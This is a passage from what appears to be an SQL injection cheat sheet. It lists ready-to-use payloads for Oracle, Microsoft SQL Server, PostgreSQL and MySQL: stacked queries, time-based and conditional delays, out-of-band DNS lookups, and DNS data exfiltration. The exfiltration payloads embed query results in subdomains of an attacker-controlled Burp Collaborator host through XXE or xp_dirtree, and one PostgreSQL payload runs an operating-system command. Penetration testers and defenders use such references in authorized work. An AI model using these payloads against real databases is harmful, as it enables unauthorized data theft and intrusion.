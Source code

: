 ### Stacking Queries

-   *Oracle* `No support`
-   *Microsoft,PostgreSQL,MySQL* `QUERY-1-HERE; QUERY-2-HERE`

### Delays

-   *Oracle* `dbms_pipe.receive_message(('a'),10)`
-   *Microsoft* `WAITFOR DELAY '0:0:10'`
-   *PostgreSQL* `SELECT pg_sleep(10)`
-   *MySQL* `SELECT sleep(10)`

### Conditional Delays

-   *Oracle* `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
-   *Microsoft* `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
-   *PostgreSQL* `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
-   *MySQL* `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`

### DNS Lookup

-   *Oracle*

``` sql
SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
```

OR

``` sql
SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')
```

-   *Microsoft* `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'`
-   *PostgreSQL* `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'`
-   *MySQL* WINDOWS ONLY: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a');SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'`

### DNS Data Exfiltration

1.  Oracle

    ``` sql
    SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual
    ```

2.  Microsoft

    ``` sql
    declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')
    ```
